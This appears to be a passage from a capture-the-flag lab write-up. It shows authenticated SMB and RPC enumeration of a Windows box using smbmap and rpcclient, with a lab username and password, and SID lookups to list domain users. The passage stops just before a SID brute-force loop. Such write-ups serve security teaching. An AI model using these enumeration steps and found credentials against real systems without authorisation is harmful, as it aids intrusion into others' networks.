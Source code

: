 I'll re-run `smbmap` with creds. hazard can only access `IPC$`:



    root@kali# smbmap -H 10.10.10.149 -u hazard -p stealth1agent
    [+] Finding open SMB ports....
    [+] User SMB session establishd on 10.10.10.149...
    [+] IP: 10.10.10.149:445        Name: 10.10.10.149                                      
            Disk                                                    Permissions
            ----                                                    -----------
            ADMIN$                                                  NO ACCESS
            C$                                                      NO ACCESS
            IPC$                                                    READ ONLY



I would go back and re-run `crackmapexec`, but I already saw all three
passwords fail with the two other users. I'll also try to connect over
WinRM with these creds, but it fails.

#### rpcclient

`IPC$` is a share [used for interprocess
communications](http://smallvoid.com/article/winnt-ipc-share.md).
Typically `IPC$` is known for accecpting null (unauthenticated)
sessions, but in this case, I needed credentials to read from it.

As I can read `IPC$`, I can connect with `rpcclient`:



    root@kali# rpcclient -U 'hazard%stealth1agent' 10.10.10.149
    rpcclient $> 



I can use the `lookupnames` command to get the SIDs of the users I know:



    rpcclient $> lookupnames hazard
    hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
    rpcclient $> lookupnames administrator
    administrator S-1-5-21-4254423774-1266059056-3197185112-500 (User: 1)
    rpcclient $> lookupnames rout3r
    result was NT_STATUS_NONE_MAPPED
    rpcclient $> lookupnames admin
    result was NT_STATUS_NONE_MAPPED



I can also look up accounts by SID:



    rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
    S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)



I'll brute force across a bunch of SIDs in a loop to get a list of all
users. If I run `rpcclient` with a `-c`, I can offer a command from the
command line:
